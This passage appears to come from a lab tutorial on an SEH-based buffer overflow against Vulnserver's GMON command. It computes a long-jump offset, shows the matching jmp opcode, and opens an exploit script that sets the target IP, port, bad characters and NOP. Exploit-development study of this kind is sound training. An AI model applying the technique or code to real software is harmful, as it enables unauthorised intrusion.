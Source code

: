 Make sure to set the breakpoint again on the PPR address before you run this.

![Short Jump](/assets/img/vulnserver_gmon_60_small_jump.png)

We should end up in the new 16 C's that we added as placeholder.


## Long Jump to the Buffer Start

The NSEH offset was 3549 bytes from the start of the buffer.

```bash
3549 - 16 = 3533
```

```bash
 nasm > jmp -3533
 00000000  E92EF2FFFF        jmp 0xfffff233
```

```python
#!/usr/bin/env python3
# GMON - SEH based buffer overflow
# Step 5b - Long jump to the start of the buffer
import socket
import struct

offset = 3549
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n" # new line 0x0a
badchars = [ 0x00, 0x0a ] # found badchars
NOP = b"\x90"
```